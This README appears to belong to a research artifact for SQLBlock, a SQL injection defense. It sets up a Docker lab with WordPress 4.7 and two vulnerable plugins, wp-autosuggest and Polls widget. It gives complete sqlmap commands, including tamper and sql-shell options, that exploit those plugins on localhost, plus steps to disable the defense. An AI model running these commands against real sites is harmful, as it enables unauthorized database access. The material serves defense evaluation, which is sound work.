 # SQLBlock defense deployed on WordPress's plugins

You can download an already setup docker container from the below link
[wordpress.tar](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom)

## Running the docker
To run the docker, you should first load the tarball file using the following command.
```bash
docker load -i sqlblock_wordpress.tar
```

You can use the following command to run the docker container.
```bash
docker run --name sqlblock-container -d --rm -p 9000:80 -it sqlblock_wordpress
```

This docker container includes WordPress 4.7 and two plugins which has SQLi vulnerabilities. The docker container is already loaded with the profile of benign browsing in WordPress which includes only simple actions.


## Exploit the vulnerabilities

In the prepared docker container, SQLBlock is defending against the SQli requests. You can turn off SQLBlock using the following command.
```bash
mysql -u root -e "UNINSTALL PLUGIN sqlblock"
```

You can turn SQLBlcok back on, either using the script called `enforce_profile` or you can run the following command.
```bash
mysql -u root -e "INSTALL PLUGIN sqlblock SONAME 'sqlblock.so'"
```

You can exploit the vulnerabilities in Poll widget and autosuggest plugin using sqlmap tool. You can download sqlmap from this [link](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom).

# Auto-suggest vulnerability
You can run the following command to perform the SQLi exploit on auto-suggest plugin in WordPress.
```bash
./sqlmap-dev/sqlmap.py --flush-session -u "http://localhost:9000/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1" --technique BT --dbms MYSQL --risk 3 --level 5 -p wpas_keys --tamper space2comment --sql-shell
```

# Polls widget vulnerability

First, you need to record a benign request while you participate in poll. You can record the request using Burp suite tool downloaded from this [link](https://portswigger.net/burp/communitydownload).

- After running Burp suite, go to proxy tab and turn on intercepting mode. In the option tab you see the IP and port for the interception. You should modify your browser's proxy setting according to the information in the proxy tab of Burp suite.
- Web browsers by default do not intercept the local requests. To change that you should follow the instruction for intercepting Localhost traffic. You can follow the instruction for Firefox [here](https://security.stackexchange.com/questions/142552/how-to-configure-burp-suite-for-localhost-application).
- Visit the URL <http://localhost:9000/?p=4>. There is poll in this blog post, which you can submit your answer and record the request sent to the server using Burp suite
- After observing the request in Burp suite, you can right-click and use the "save item" option to save the request for submitting an answer to the poll to a file. The request should look like the picture below.
 The request is for `/wp-admin/admin-ajax.php?action=pollinsertvalues` and the parameter `question_id` is set with your answer in the request.
![Save request to a file](./screenshot.png)


To exploit the vulnerability in Polls widget you can use the following command. Note that you should replace the `path_to_saved_requset`.

```bash
./sqlmap-dev/sqlmap.py --flush-session -r %path_to_saved_request% -p question_id --tamper space2comment
```

